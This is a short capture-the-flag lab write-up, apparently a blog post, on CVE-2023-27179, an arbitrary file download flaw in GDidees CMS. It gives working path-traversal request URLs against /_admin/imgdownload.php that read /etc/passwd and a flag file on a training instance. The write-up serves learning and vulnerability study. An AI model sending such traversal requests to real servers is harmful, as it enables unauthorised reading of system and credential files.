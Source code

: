```yaml
---
title: "CVE-2023-27179"
date: 2024-07-25
tags: ["春秋云镜","CVE","LFI"]
draft: false
---
```


<https://nvd.nist.gov/vuln/detail/CVE-2023-27179>

## Description

GDidees CMS v3.9.1 and lower was discovered to contain an arbitrary file download vulenrability via the filename parameter at /_admin/imgdownload.php.

## 演示

环境: [春秋云镜 免费空间>CVE-2023-27179](https://yunjing.ichunqiu.com/cve/detail/1164)

### 1.验证

<https://eci-2ze1yk1jnhh0vbk5ueiq.cloudeci1.ichunqiu.com/_admin/imgdownload.php?filename=../../../../../etc/passwd>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1164/1.webp)

### 2.利用

<https://eci-2ze1yk1jnhh0vbk5ueiq.cloudeci1.ichunqiu.com/_admin/imgdownload.php?filename=../../../../../flag>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1164/2.webp)

<https://eci-2ze1yk1jnhh0vbk5ueiq.cloudeci1.ichunqiu.com/_admin/imgdownload.php?filename=file:///flag>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1164/3.webp)
